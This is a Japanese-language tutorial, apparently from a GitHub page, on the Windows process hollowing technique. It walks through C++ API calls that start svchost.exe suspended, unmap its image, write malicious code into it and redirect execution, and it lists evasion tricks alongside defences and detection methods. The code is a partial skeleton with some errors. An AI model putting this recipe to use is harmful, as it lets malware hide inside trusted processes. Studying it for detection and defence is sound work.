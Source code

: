 # Process Hollowing Techniques

**対応OS**: Windows

## 概要
プロセスホローイングは、正規のプロセスのメモリ空間を悪意のあるコードで置き換える手法です。

## 基本的な手順

### 1. プロセス作成
```cpp
STARTUPINFO si = { sizeof(si) };
PROCESS_INFORMATION pi;
CreateProcessA(NULL, "svchost.exe", NULL, NULL, FALSE, 
    CREATE_SUSPENDED, NULL, NULL, &si, &pi);
```

### 2. メモリ解放
```cpp
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_FULL;
GetThreadContext(pi.hThread, &ctx);
LPVOID peb = GetPEB(pi.hProcess, ctx);
IMAGE_NT_HEADERS nt_headers;
ReadProcessMemory(pi.hProcess, peb, &nt_headers, sizeof(nt_headers), NULL);
NtUnmapViewOfSection(pi.hProcess, nt_headers.OptionalHeader.ImageBase);
```

### 3. 新しいコードの注入
```cpp
LPVOID new_base = VirtualAllocEx(pi.hProcess, 
    (LPVOID)nt_headers.OptionalHeader.ImageBase,
    nt_headers.OptionalHeader.SizeOfImage,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

WriteProcessMemory(pi.hProcess, new_base, 
    malicious_code, code_size, NULL);
```

### 4. エントリーポイントの設定
```cpp
ctx.Eax = (DWORD)((LPBYTE)new_base + 
    nt_headers.OptionalHeader.AddressOfEntryPoint);
SetThreadContext(pi.hThread, &ctx);
ResumeThread(pi.hThread);
```

## 検知回避テクニック
- 正規プロセスの選択
- メモリパターンの偽装
- タイミング制御
- アンチデバッグ

## 防御策
- プロセスの整合性監視
- メモリ領域の保護
- 不審なプロセス作成の検知
- ホワイトリスト化

## 検知方法
- メモリマッピングの変更検知
- プロセスの挙動分析
- APIコール監視
- メモリダンプ分析

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 